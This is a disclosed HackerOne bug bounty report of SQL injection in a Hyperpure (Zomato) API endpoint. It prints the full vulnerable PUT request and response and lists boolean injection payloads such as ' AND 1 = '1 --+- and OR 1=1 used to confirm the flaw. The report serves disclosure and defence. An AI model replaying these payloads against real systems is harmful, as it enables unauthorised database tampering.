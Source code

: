 # SQL Injection in www.hyperpure.com

## Report Details
- **Report ID**: 1044716
- **URL**: https://hackerone.com/reports/1044716
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-11-26T18:57:13.717Z
- **Disclosed**: 2021-02-22T07:34:13.808Z

## Reporter
- **Username**: hoteyes
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: zomato

## Vulnerability Information
Vulnerable Request :

PUT /consumer/onboarding/saleslead/6b6a8a5a-4a74-46db-b2fe-32a46f927ecc    HTTP/1.1
Host: api.hyperpure.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=utf-8
X-Client: consumer
X-TrackingId: 8242c5a2-6325-4101-96b8-c7ed6008e92a
HeaderRoute: v2
APIVersion: 4.2
AppType: web
Content-Length: 246
Origin: https://www.hyperpure.com
Connection: close
Referer: https://www.hyperpure.com/register

{"address":{"addressLine":"test","cityId":34,"state":{"name":"Gujarat"},"zipCode":"388001"},"deliveryTime":0,"email":"hoteyes@wearehackerone.com","outletName":"test","phoneNumber":"█████","salesLeadId":"31cf8eb0-f81e-4c99-acad-35eae89ed659"}

The above request is used to create sales lead with the data the sales lead id is produced and verified by the domain.

Base Response Received: 

HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
Content-Length: 68
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: https://www.hyperpure.com
x-envoy-upstream-service-time: 166
Server: envoy
Date: Thu, 26 Nov 2020 18:48:34 GMT
Connection: close
Vary: Accept-Encoding

{"response":{"salesLeadId":"6b6a8a5a-4a74-46db-b2fe-32a46f927ecc"}}


Now we will be executing following steps to verify if  "AND "  & "OR" statements work.

1) Proving AND condition working while using it with a valid sales id  " AND 1 = "1 --+-   
2) Proving AND condition false with working sales lead using AND 1=0.
3) Proving adding cool as a sales lead by using OR 1=1 , which always states true.

## Impact

Adding random sales ID in the database using PUT statement and populating it.

## Attachments
No attachments
